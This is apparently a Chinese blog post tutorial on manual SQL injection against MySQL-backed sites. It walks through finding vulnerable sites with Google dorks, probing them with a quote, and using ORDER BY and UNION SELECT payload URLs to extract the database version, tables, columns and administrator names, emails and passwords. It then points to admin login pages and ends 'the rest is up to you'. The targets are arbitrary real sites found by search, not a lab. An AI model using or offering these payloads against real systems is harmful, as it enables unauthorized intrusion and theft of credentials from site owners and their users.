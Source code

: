```yaml
---
layout: post
title: Web攻击-Sql注入
categories:
- Security
tags:
- Hack
- Web Security
- Sql Injection
---
```

1. 什么是Sql Injection(Sql 注入)

[Sql Injcetion][Sql Injection]是一种非常流行的Web应用程序攻击方法. 通过Sql Injection攻击, 用户可以非法的访问网站的数据库, 甚至导出你的数据(拖库).

通过Sql Injection可以达到什么目的?

- 绕道登陆
- 访问安全数据
- 篡改网站数据
- 拖垮数据库服务器

Ok, Let's go.

Step 1: 寻找容易攻击的网站

在这里我们可以利用Google来寻找目标主机, 利用一些特点的关键词

eg:

	inurl:index.php?id=
	inurl:article.php?id=
	inrul:post.php?id=

我们称这些词为"Google dork".

选择一个适当的关键词进行搜索, 我们会获取到很多结果. 对这些结果一一进行漏洞测试.

注: 如果你要对一个特定的网站进行攻击,你应该这样搜索:

    site:www.example.com dork_list

Step 2: 漏洞测试

在你要测试的目标主机的url后面添加单引号('), 

eg:

	http://www.example.com/index.php?id=2'

如果网页显示正常或者'404 not found', 则这个主机是比较安全的. 对一个初学者, 建议重新选择一个目标.

如果网页显示如下的错误, 那么恭喜你, 可以顺利进入下一步了.
	
	You hava an error in SQL sytax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\" at line 1

Step 3: 获取表的字段数(列数)

上一步中我们已经获取了一个可以来用进行Sql Injection的目标主机. 这一步我们将获取到表的字段数.

替换上一步中我们添加的单引号(')为 "order by n", n从1开始不断的递增. 直到页面显示类似"unknown column"的错误.

eg:
    
	http://www.example.com/index.php?id=2 order by 1
	http://www.example.com/index.php?id=2 order by 2
	http://www.example.com/index.php?id=2 order by 3
	http://www.example.com/index.php?id=2 order by 4

假如在 order by x 的时候出现错误, 则字段数=x-1

如果上面的方法不起作用, 你可以试试下面的方法

eg:

	http://www.example.com/index.php?id=2 order by n --

Step 4: 获取易受攻击的字段

上一步中我们获取到了表的字段数.这一步我们通过连接查询获取容易受攻击的字段. 

首先, 将上一步中id=2修改为一个负数, 然后在后面添加 "union select 1,2,3,...x-1".

eg:

上一步中我们获取字段数位7, 输入格式如下:

	http://www.example.com/index.php?id=-2 union select 1,2,3,4,5,6,7 --

如果上面方法不起作用, 可以试试下面的格式:

	http://www.example.com/index.php?id=-2 and 1=2 union select 1,2,3,4,5,6,7 --

如果你得到类似下面的结果, 那么我们就可以进行下一步了.
	
	3 Query was empty 7

通过上面的结果, 我们获取了'3'和'7'字段是容易受攻击的. 我们就可以选择它们作为攻击的切入点.

Step 5: 获取数据库版本(version), 数据库名称(database), 用户(user)

我们在上一步中获取了'3'和'7'为容易受攻击的字段. 在这一步中,用version()替换其中的一个.

eg:

	http://www.example.com/index.php?id=-2 and 1=2 union select 1,2,version(),4,5,6,7 --

假如我们获取了版本version() 为5.0.1 .

相同的原理用database(), user()替换.

eg:

	http://www.example.com/index.php?id=-2 and 1=2 union select 1,2,database(),4,5,6,7 --
	http://www.example.com/index.php?id=-2 and 1=2 union select 1,2,user(),4,5,6,7 --

如果上面的不成功,可以尝试下面的方法:

	http://www.example.com/index.php?id=-2 and 1=2 union select 1,2,unhex(hex(@@version)),4,5,6,7 --

Step 6: 获取表名

用" group_concat(table_name) "替换3, 然后在后面添加 "from information_schema.tables where table_schema=database() --" 

eg:

	http://www.example.com/index.php?id=-2 and 1=2 union select 1,2,group_concat(table_name),4,5,6,7 from information_schema.tables where table_schema=database() --

注解: 通过Mysql的information_schema.tables 获取 输入数据库的database()的表.group_concat 是将这些表名连接起来. 

如果执行成功,我们将获取如下的格式:
	
	admin,banner,cini_news,cini_news_fr,gallery_categories,gallery_comments,gallery_groupaccess  Query was empty 	7

通过表名,你应该能够获得很多信息吧. 这里我选择"admin" 表

注: 也可以通过bind sql injection (Sql盲注)获表名, 但并不是这篇文章讨论的.

Step 7: 获取表的字段

替换"group_concat(table_name)"为"gourp_concat(column_name)"

替换"from information_schema.tables where talbe_schema=database()--"为"from information_schema.columns where table_name=char(table_name)--"
	
eg:

	http://www.example.com/index.php?id=-2 and 1=2 union select 1,2,group_concat(column_name),4,5,6,7 from information_schema.columns where table_name=char(97,100,109,105,110)--

注意:char(table_name)是将表名转为 mysql char() string.

在线转换工具: http://wocares.com/noquote.php

如果成功执行, 我们得到类似如下的结果:

	id,admin_name,admin_email,admin_password

Step 8: 获取表内容

替换 "group_concat(column_name)"为"gourp_concat(columnname1,0x3a,anothercolumnname2)"

替换 "from information_schema.columns where table_name=char(column_name)" 为 "from table_name"

eg:

	http://www.example.com/index.php?id=-2 and 1=2 union select 1,2,group_concat(admin_name,0x3a,admin_email,0x3a,admin_password),4,5,6,7 from admin --

现在我们就已经获取到了管理的所有信息.

Step 9: 获取管理员登陆页面

eg:

	http://www.example.com/admin.php
	http://www.example.com/admin/login.php
	http://www.example.com/admin.html

注: 在这里我们也可以借助Google. site:www.example.com inurl:admin 或者 site:www.example.com inurl:login 

Step 10:

下来的, 就交给你了.


[Sql Injection]: http://en.wikipedia.org/wiki/SQL_injection "Sql Injection"
